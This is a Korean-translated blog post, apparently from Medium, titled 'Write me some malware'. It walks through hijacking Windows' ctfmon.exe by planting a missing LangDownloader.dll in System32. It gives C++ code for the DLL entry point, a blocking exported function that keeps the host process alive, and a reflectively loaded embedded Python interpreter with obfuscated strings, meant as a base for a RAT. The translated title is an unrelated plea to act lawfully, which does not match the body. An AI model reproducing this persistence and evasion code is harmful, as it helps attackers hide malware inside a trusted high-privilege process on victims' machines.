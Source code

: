 ```yaml
---
title: "제발 합법적인 방식으로 지식을 확장하거나 온라인 커뮤니티에서 도움을 받아보는 것을 고려해보세요 안전한 온라인 활동이 중요하며 악의적인 목적으로 행동하는 것은 부디 자제해 주세요 함께 안전한 인터넷 환경을 만들어 나갈 수 있기를 바랍니다"
description: ""
coverImage: "/assets/img/2024-06-19-Writemesomemalware_0.png"
date: 2024-06-19 01:15
ogImage: 
  url: /assets/img/2024-06-19-Writemesomemalware_0.png
tag: Tech
originalTitle: "Write me some malware"
link: "https://medium.com/@shaharb02/write-me-some-malware-fbfd131db495"
isUpdated: true
---
```






(연구 목적으로만 사용)

# 이루고 싶은 것:

# 어떻게 로드할 것인가:

Windows에는 ctfmon.exe라는 멋진 프로세스가 있습니다. 이 프로세스를 좋아하는 이유가 몇 가지 있어요.

<div class="content-ad"></div>


![이미지](/assets/img/2024-06-19-Writemesomemalware_0.png)

- 높은 권한에서 실행됩니다.
- 충돌/중단 시 다시 시작하는 서비스가 있습니다.
- 모든 Windows 컴퓨터에서 실행됩니다.


<div class="content-ad"></div>

해당 프로세스 내에서 실행하고 싶긴 한데, 어떻게 해야할지가 문제야.

"virtual alloc — create remote thread" 방법으로 내 자신을 주입할 수 있지만, 안티바이러스들이 이미 알고 있고 그 방법은 너무 2012년식이야. 더 나은 방법을 고민해봐야겠어.

## ctfmon.exe에 로드하는 멋진 방법 찾기

Procmon을 실행하고 ctfmon.exe를 다시 시작해서 무슨 일을 하는지 확인해봐.

<div class="content-ad"></div>


<img src="/assets/img/2024-06-19-Writemesomemalware_1.png" />

음... ctfmon.exe이 LangDownloader.dll이라는 동적 라이브러리를 로드하려고 하는 것 같지만 찾을 수 없네요. 제 컴퓨터에 있는지 확인해보겠습니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_2.png" />

LangDownloader.dll이 없습니다... 하나 만들어 시스템32에 넣어 ctfmon.exe를 다시 시작해보겠습니다.


<div class="content-ad"></div>

```js
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {

    case DLL_PROCESS_ATTACH:
        {
        MessageBoxA(0, std::to_string(GetCurrentProcessId()).c_str(), 0, 0);
        break;
        }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

메시지 상자를 표시하지만 ctfmon.exe가 종료됩니다. 무언가 잘못하고 있는 것 같아요 :(

LangDownloader.dll이 어떻게 로드되는지 자세히 파악하여 더 나은 모방을 하고 충돌을 방지하고 싶어요. ctfmon.exe를 좀 더 자세히 살펴보는 것이 가장 좋은 방법인 것 같아요.

![이미지](/assets/img/2024-06-19-Writemesomemalware_3.png)


<div class="content-ad"></div>

이 static imports만 있는 것을 볼 수 있습니다. LangDownloader.dll은 여기 없는데요... 어디서 불러오는 걸까요?

Procmon으로 돌아가보면 무언가를 발견할 수도 있을 거에요

![image](/assets/img/2024-06-19-Writemesomemalware_4.png)

여기 보세요. InputLocaleManager.dll을 불러오고 있네요. 이 파일을 조사해봅시다.

<div class="content-ad"></div>

해당 문자열을 찾았습니다!

![image](/assets/img/2024-06-19-Writemesomemalware_5.png)

여기서 잘 로드되고 있네요. 이제 뭘 할까요?

![image](/assets/img/2024-06-19-Writemesomemalware_6.png)

<div class="content-ad"></div>

한번 확대해볼까요? 저희에게 pdb 파일이 있어요 (:

![image 1](/assets/img/2024-06-19-Writemesomemalware_7.png)

![image 2](/assets/img/2024-06-19-Writemesomemalware_8.png)

이 코드를 한 번 분석해 봐요.

<div class="content-ad"></div>

```js
• LangDownloader.dll을로드하려고 시도합니다.
• 실패하는 경우
  - “종료”로 계속 진행합니다.
• 성공하는 경우
  - LangDownloaderCreate의 주소를 가져오려고 시도합니다.
  - 실패하는 경우
     프로세스 종료
  - 성공하는 경우
     매개변수와 함께 LangDownloaderCreate를 호출합니다
```

지금까지 잘 됐어요. 이것은 왜 ctfmon.exe가 실행할 LangDownloader.dll이라는 임의의 .dll을 제공했을 때 충돌했는지를 설명합니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_9.png" />

우리는 0보다 작고 0x800700E와 다른 숫자를 반환하면 우리는 그냥 계속 진행할 것임을 볼 수 있습니다... 내가 신경 쓰지 않으니까 무한 대기를 해봅시다.


<div class="content-ad"></div>

```js
extern "C" __declspec(dllexport) int LangDownloaderCreate(int a, int b)
{
    // 영원히 기다려요
    HANDLE never_set = CreateEventA(NULL, TRUE, FALSE, NULL);
    WaitForSingleObject(never_set, INFINITE);

    return -1;
}
```

알겠어요!

![이미지](/assets/img/2024-06-19-Writemesomemalware_10.png)

이제 실행 중이니까... 뭘 하고 싶어요?

<div class="content-ad"></div>

# 무엇을 실행할까요:

제 .dll 내부에 인터프리터를 실행하고 싶어요... 파이썬이 어떻게 하는지 살펴봐요

배운 바에 의하면, 파이썬은 python`버전`.dll을 사용해서 모든 파이썬 작업을 처리해요

이 .dll을 멋지게 C++ 인터페이스로 감싸봐요

<div class="content-ad"></div>

```js
class PythonInterpreter
{
public:
    explicit PythonInterpreter();
    ~PythonInterpreter();

    NO_DISCARD void* run_line(const std::string& line);

    // Deleted Functions
    PythonInterpreter(const PythonInterpreter& other) = delete;
    PythonInterpreter(PythonInterpreter&& other) = delete;
    PythonInterpreter& operator=(const PythonInterpreter& other) = delete;
    PythonInterpreter& operator=(PythonInterpreter&& other) = delete;

private:
    using PyObject = int;

    using PyInitializeType = void (*)();
    using PyFinalizeType = void (*)();
    using PyRunSimpleStringType = PyObject * (*)(const char* str);

    // Members
    DynamicLibrary m_python_interpreter_library;
    PyInitializeType m_initialize;
    PyFinalizeType m_finalize;
    PyRunSimpleStringType m_run_simple_string;
};

PythonInterpreter::PythonInterpreter() :
    m_python_interpreter_library(WindowsResource::get_resource(GetModuleHandleA(OBFUSCATE("LangDownloader.dll")),
                                                               IDR_BINARY1,
                                                               OBFUSCATE("Binary"))),
    m_initialize(static_cast<PyInitializeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Initialize")))),
    m_finalize(static_cast<PyFinalizeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Finalize")))),
    m_run_simple_string(static_cast<PyRunSimpleStringType>(m_python_interpreter_library.get_function(OBFUSCATE("PyRun_SimpleString"))))
{
    m_initialize();
}
```

이제 적절한 파이썬 인터프리터가 준비되어 있으므로, LangDownlder.dll에 통합하여 반사적으로 로드할 수 있습니다.

DynamicLibrary 클래스를 만들어야 합니다.

```js
class DynamicLibrary
{
public:
    explicit DynamicLibrary(ByteSpan library_binary);
    ~DynamicLibrary();

    NO_DISCARD void* get_function(const std::string& function_name);

    // Deleted Functions
    DynamicLibrary(const DynamicLibrary& other) = delete;
    DynamicLibrary(DynamicLibrary&& other) = delete;
    DynamicLibrary& operator=(const DynamicLibrary& other) = delete;
    DynamicLibrary& operator=(DynamicLibrary&& other) = delete;

private:
    NO_DISCARD static HMEMORYMODULE load_library(ByteSpan library_binary);

    // Members
    HMEMORYMODULE m_library_base;
};
```

<div class="content-ad"></div>

이제 ctfmon.exe 내부에 파이썬 인터프리터가 있습니다!

![이미지](/assets/img/2024-06-19-Writemesomemalware_11.png)

정말 멋지죠? 

이제 남은 일은 파이썬으로 RAT을 작성하는 것뿐입니다.

<div class="content-ad"></div>

미안해요! 전손을 올립니다(:

![Image](/assets/img/2024-06-19-Writemesomemalware_12.png)